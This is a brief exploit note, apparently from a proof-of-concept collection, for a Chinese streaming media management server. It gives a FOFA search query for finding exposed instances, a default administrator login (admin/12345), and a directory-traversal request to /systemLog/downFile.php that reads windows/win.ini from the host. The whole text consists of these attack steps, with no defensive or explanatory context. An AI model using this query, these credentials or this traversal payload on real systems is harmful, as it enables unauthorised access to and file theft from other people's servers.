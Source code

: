 <languages   />

FOFA
----

    title="流媒体管理服务器"

Login
-----

    admin/12345

文件讀取
--------

    /systemLog/downFile.php?fileName=../../../../../../../windows/win.ini